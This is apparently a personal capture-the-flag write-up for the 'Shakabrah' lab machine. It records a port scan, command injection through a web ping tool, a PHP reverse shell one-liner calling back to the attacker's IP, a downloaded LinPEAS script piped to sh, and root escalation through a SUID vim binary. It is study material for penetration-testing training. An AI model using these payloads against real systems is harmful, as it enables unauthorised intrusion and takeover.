


# Shakabrah (rough notes)

## Access

Initial port scan

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Shakabrah]
└─$ nmap -v -Pn -p- -T4 shakabrah
...

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Port scan with service version fingerprinting

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Shakabrah]
└─$ nmap -v -p 22,80 -T4 -A shakabrah
...

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)
|_  256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking out the webserver in the browser we find a ping tester utility



I try figuring out how to abuse this thing... I give flags to the ping command and hope to see them take effect


```
8.8.8.8 -c 2
```

Indeed only sent 2 packets, so we can probably just inject arbitrary commands here...

I try

```
8.8.8.8 -c 2; ls -la
```



Success... so we can inject arbitrary commands here. I'll try setting up a reverse shell...

I try a few reverse shells before I get one to work. I noticed there was a php file in the filesystem (see picture above). So I went with a PHP reverse shell:

```
8.8.8.8 -c 2; php -r '$sock=fsockopen("192.168.45.201",80);exec("sh <&3 >&3 2>&3");'
```

Caught the shell in Kali:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Shakabrah/assets]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.201] from (UNKNOWN) [192.168.215.86] 47342
whoami
www-data
```

Found the first flag in `dylan`'s home directory:

```
www-data@shakabrah:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root  root  4096 Aug 25  2020 .
drwxr-xr-x 23 root  root  4096 Aug 25  2020 ..
drwxr-xr-x  3 dylan dylan 4096 Aug 25  2020 dylan
www-data@shakabrah:/home$ cat dylan/local.txt
cat dylan/local.txt
e4e25176849c6150775f3de2715009ad
```

## Privilege Escalation

Time for LinPEAS!

I couldn't talk to the internet from the victim host, so I downloaded the LinPEAS script to my Kali machine and served it over HTTP for the victim host to download with:

```
wget -O- --timeout 3 --tries 1 http://192.168.45.201/linpeas.sh | sh
```

The most relevant LinPEAS findings are:

- An unknown SUID binary:

```
-rwsr-xr-x 1 root root 2.6M Mar 18  2020 /usr/bin/vim.basic (Unknown SUID binary!)
```

Seems to be a slimmed down version of vim. Looking at how to use `vim` to escalate privileges in [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#suid) we find a few ways to get a shell.

We find our proof in the root directory:

```
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal


whoami
root
cd /root
ls -la
total 20
drwx------  2 root root 4096 Mar 29 14:48 .
drwxr-xr-x 23 root root 4096 Aug 25  2020 ..
lrwxrwxrwx  1 root root    9 Aug 25  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Mar 29 14:48 proof.txt
cat proof.txt
d51aa44565ed8c7d12353a94c7cf277a
```

> Note: when I ran the vim command it threw a lot of errors of the form `E79: Cannot expand wildcards`, but I just pressed Enter a bunch of times and noticed I was root.